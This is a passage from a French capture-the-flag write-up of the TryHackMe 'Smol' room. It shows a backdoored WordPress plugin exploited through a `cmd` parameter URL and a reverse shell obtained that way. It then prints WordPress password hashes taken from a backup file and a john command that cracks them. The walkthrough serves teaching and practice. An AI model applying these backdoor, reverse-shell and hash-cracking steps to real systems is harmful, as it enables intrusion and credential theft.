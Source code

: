 ![hello dolly clyrics](/images/THM-Smol/hello_dolly_lyrics.png)

Mais elle vérifie également si le paramètre `cmd` (`\143\155\x64` correspond à `cmd`) existe dans la chaîne de requête de la requête HTTP (`$_GET`). Si c'est le cas, la fonction `system` exécute la valeur du paramètre `cmd` en tant que commande système sur le serveur.

Exemple : `http://www.smol.thm/wp-admin/index.php?cmd=whoami` exécutera la commande `whoami` sur le serveur.

![hello dolly command execution](/images/THM-Smol/command_execution.png)

Nous pouvons l'utiliser pour obtenir un shell inversé.

> J'ai utilisé le reverse shell `nc mkfifo` sur [revshells](https://www.revshells.com/) et l'ai encodé en URL.

```
http://www.smol.thm/wp-admin/index.php?cmd=REVSHELL
```

![revshell command](/images/THM-Smol/revshell_cmd.png)

Sur le listener, nous recevons une connexion.

![Foothold](/images/THM-Smol/foothold.png)

Dans `/opt` nous trouvons un fichier appelé `wp_backup.sql`.

![sql file](/images/THM-Smol/wpbackup.png)

### Shell en tant que diego

Avec `cat wp_backup.sql | grep "wpuser"` nous trouvons les hashs de tous les utilisateurs. Mais nous savons que seuls quatre d'entre eux sont des utilisateurs sur le système cible.

![Credentials in database](/images/THM-Smol/db_data.png)

```
think:$P$B0jO/cdGOCZhlAJfPSqV2gVi2pb7Vd/
gege:$P$BsIY1w5krnhP3WvURMts0/M4FwiG0m1
diego:$P$BWFBcbXdzGrsjnbc54Dr3Erff4JPwv1
xavi:$P$BvcalhsCfVILp2SgttADny40mqJZCN/
```

Ce sont des hashs WordPress, nous pouvons utiliser john pour craquer les hashs. Nous réussissons à cracker le hash de `diego`.

```
john --format=phpass --wordlist=/usr/share/wordlists/rockyou.txt creds.txt
```

![diego pwd](/images/THM-Smol/diego_pwd.png)

Avec le mot de passe, nous passons à `diego` et récupérons le drapeau utilisateur.

![user flag](/images/THM-Smol/user_flag.png)
